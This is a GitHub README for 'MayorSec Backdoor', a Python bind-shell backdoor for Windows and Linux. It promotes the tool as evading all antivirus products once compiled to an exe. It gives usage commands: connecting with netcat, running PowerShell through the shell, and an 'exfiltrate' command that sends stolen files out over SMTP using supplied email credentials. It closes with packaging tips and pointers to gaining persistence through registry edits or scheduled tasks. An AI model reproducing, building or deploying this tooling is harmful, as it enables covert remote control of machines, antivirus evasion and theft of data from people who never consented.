 # MayorSec Backdoor
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor?ref=badge_shield)
### Fully functioning bind-type backdoor
![MayorSecBackdoorLite](/images/backdoorlite.png)

This backdoor is a fully functioning bind shell and lite version of my full functioning Gatekeeper tool. It can be ran with Python or compiled to an exe and has full functioning command line access with Windows and Linux.  When compiled it bypasses all Antivirus solutions on Antiscan.me.

## Usage
Connect using Netcat after changing the port value to whatever you wish (default is 8180)

```nc ipaddr port```

Once connected you can utilize commands as normal.  If you wish to use Powershell commands, make sure to lead with 

```powershell <command here>```

This will execute the command.  Note that some Powershell functionality may crash the Netcat session requiring a reconnect.  

## SMTP Exfiltration
![SMTPExfil](/images/smtpexfil.png)

MayorSec Backdoor has built in exfiltration functionality via SMTP.  Use the below format from the command line.

```exfiltrate filename <sender_email> <sender_email_password> <receiver_email>```

## Compilation
This tool can be ran on systems that have Python3 installed, or can be compiled to exe using Pyinstaller.  I recommend using the GUI version of Pyinstaller called "Auto Py to EXE" which allows for the easy addition of an exe icon for the application.  

## Notes
Windows will likely require a firewall rule in order to utilize this tool on machines with firewall enabled.  You can achieve persistence through typical manual Registry edits, scheduled tasks, etc. 


## License
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor?ref=badge_large)